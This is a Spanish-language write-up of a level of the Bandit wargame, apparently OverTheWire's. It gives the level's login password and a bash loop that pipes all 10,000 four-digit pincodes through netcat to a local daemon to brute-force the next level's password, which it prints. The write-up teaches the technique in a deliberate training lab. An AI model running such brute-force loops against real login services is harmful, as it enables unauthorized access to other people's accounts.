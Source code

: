 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
bandit24 gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Solución
```

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 1234
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 4567


bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:~$
```
## Notas adicionales
grep -v mensaje - Filtra todas las líneas que no contengan el mensaje
## Referencias

